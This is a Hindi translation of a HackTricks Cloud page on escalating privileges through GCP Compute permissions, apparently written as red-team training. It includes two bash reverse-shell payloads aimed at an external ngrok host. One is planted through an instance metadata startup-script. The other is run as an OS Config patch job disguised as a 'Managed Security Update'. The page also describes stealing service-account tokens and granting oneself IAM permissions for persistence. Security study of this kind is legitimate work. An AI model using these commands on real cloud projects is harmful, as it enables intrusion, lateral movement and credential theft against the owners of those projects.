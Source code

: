 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

GCP में Compute और VPC (नेटवर्क) के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
ध्यान दें कि उन सभी विशेषाधिकार वृद्धि हमलों को करने के लिए जो उदाहरण के मेटाडेटा को संशोधित करने की आवश्यकता होती है (जैसे नए उपयोगकर्ताओं और SSH कुंजियों को जोड़ना) यह **आवश्यक है कि आपके पास उदाहरण से जुड़े SA पर `actAs` अनुमतियाँ हों**, भले ही SA पहले से ही जुड़ा हो!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

इस अनुमति के साथ आप **संशोधित** कर सकते हैं **मेटाडेटा** जानकारी को एक **उदाहरण** का और **एक उपयोगकर्ता के अधिकृत कुंजियों** को बदल सकते हैं, या **sudo** अनुमतियों के साथ **एक नया उपयोगकर्ता बना सकते हैं**। इसलिए, आप किसी भी VM उदाहरण में SSH के माध्यम से exec करने में सक्षम होंगे और उस GCP सेवा खाते को चुरा सकते हैं जिसके साथ उदाहरण चल रहा है।\
सीमाएँ:

* ध्यान दें कि VM उदाहरणों में चलने वाले GCP सेवा खातों का डिफ़ॉल्ट रूप से **बहुत सीमित दायरा** होता है।
* आपको लॉगिन करने के लिए **SSH** सर्वर से **संपर्क करने में सक्षम होना चाहिए**।

इस अनुमति का लाभ उठाने के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

आप नए स्टार्टअप-स्क्रिप्ट को जोड़कर और उदाहरण को पुनरारंभ करके भी इस हमले को कर सकते हैं:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

यह अनुमति **पिछली अनुमति के समान विशेषाधिकार देती है** लेकिन एक विशिष्ट उदाहरण पर, पूरे प्रोजेक्ट के बजाय। **पिछले अनुभाग के लिए समान शोषण और सीमाएँ लागू होती हैं**।

### `compute.instances.setIamPolicy`

इस प्रकार की अनुमति आपको **पिछली अनुमतियों के साथ एक भूमिका देने** और उनका दुरुपयोग करके विशेषाधिकार बढ़ाने की अनुमति देगी।

### **`compute.instances.osLogin`**

यदि **OSLogin उदाहरण में सक्षम है**, तो इस अनुमति के साथ आप केवल **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और उदाहरण से कनेक्ट कर सकते हैं। आपके पास उदाहरण के अंदर **रूट विशेषाधिकार नहीं होंगे**।

{% hint style="success" %}
इस अनुमति के साथ VM उदाहरण के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपको VM से जुड़े SA पर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।
{% endhint %}

### **`compute.instances.osAdminLogin`**

यदि **OSLogin उदाहरण में सक्षम है**, तो इस अनुमति के साथ आप केवल **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और उदाहरण से कनेक्ट कर सकते हैं। आपके पास उदाहरण के अंदर **रूट विशेषाधिकार होंगे**।

{% hint style="success" %}
इस अनुमति के साथ VM उदाहरण के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपको VM से जुड़े SA पर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

यह संभव है कि **एक सेवा खाते के साथ एक वर्चुअल मशीन बनाई जाए और सेवा खाते का टोकन चुराया जाए** जिससे विशेषाधिकार बढ़ाने के लिए मेटाडेटा तक पहुंचा जा सके।

इस विधि के लिए शोषण स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) मिल सकती है।

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

यदि आपके पास **`osconfig.patchDeployments.create`** या **`osconfig.patchJobs.exec`** अनुमतियाँ हैं, तो आप एक [**पैच नौकरी या तैनाती**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) बना सकते हैं। यह आपको वातावरण में पार्श्व रूप से आगे बढ़ने और प्रोजेक्ट के भीतर सभी कंप्यूट उदाहरणों पर कोड निष्पादन प्राप्त करने की अनुमति देगा।

ध्यान दें कि वर्तमान में आपको **उदाहरण से जुड़े SA पर `actAs` अनुमति** की आवश्यकता नहीं है।

यदि आप इसे मैन्युअल रूप से शोषित करना चाहते हैं, तो आपको या तो एक [**पैच नौकरी**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **या** [**तैनाती**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)** बनानी होगी।**\
पैच नौकरी चलाने के लिए: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

एक पैच डिप्लॉयमेंट को लागू करने के लिए:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) को इस गलत कॉन्फ़िगरेशन का लाभ उठाने के लिए अतीत में उपयोग किया जा सकता था (लेकिन अब यह काम नहीं कर रहा है)।

**एक हमलावर इसे स्थिरता के लिए भी दुरुपयोग कर सकता है।**

### `compute.machineImages.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ** कंप्यूट इमेज पर दें।

### `compute.snapshots.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ** एक डिस्क स्नैपशॉट पर दें।

### `compute.disks.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ** एक डिस्क पर दें।

### एक्सेस स्कोप को बायपास करें

इस लिंक का पालन करते हुए आप कुछ [**विचार पाएंगे एक्सेस स्कोप को बायपास करने के लिए**](../)।

### GCP Compute इंस्टेंस में स्थानीय विशेषाधिकार वृद्धि

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
